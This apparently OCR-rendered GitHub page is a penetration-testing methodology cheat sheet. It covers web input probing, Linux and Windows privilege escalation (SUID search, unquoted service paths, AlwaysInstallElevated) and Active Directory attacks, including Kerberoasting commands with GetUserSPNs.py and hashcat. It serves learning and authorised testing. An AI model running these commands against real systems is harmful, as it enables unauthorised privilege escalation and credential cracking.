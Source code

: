 ### 🔬 Manual Analysis
- Look for verbose error messages
- Test every parameter with `'`, `<script>`, `../`
- Observe headers, cookies, CSPs

---

## 💣 PHASE 4: System Hacking & Privilege Escalation

### 🔐 Linux PrivEsc (Post-exploitation)
- Look for SUID binaries:
```bash
find / -perm -4000 -type f 2>/dev/null
```
- Run `linpeas.sh` or `pspy64` for automated discovery
- Check sudo privileges:
```bash
sudo -l
```
- Exploit PATH hijacking or writable scripts by root

### 🪟 Windows PrivEsc
- Run `winPEAS.exe`
- Look for unquoted service paths:
```powershell
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\\Windows"
```
- AlwaysInstallElevated trick:
```powershell
reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
If `1`, you can escalate via MSI payloads.

---

## 🏢 PHASE 5: Active Directory Hacking

### 🧠 Key Concepts
- Everything is about **users, groups, ACLs, and delegation**
- BloodHound + SharpHound = AD map

### 🔥 Common Attacks
- **Kerberoasting**:
```bash
GetUserSPNs.py domain/user:pass -dc-ip <IP> -outputfile hashes.txt
hashcat -m 13100 hashes.txt wordlist.txt
```
- **AS-REP Roasting** – when `Do not require pre-auth` is enabled
- **DCSync** – abuse `Replicate Directory Changes` permission
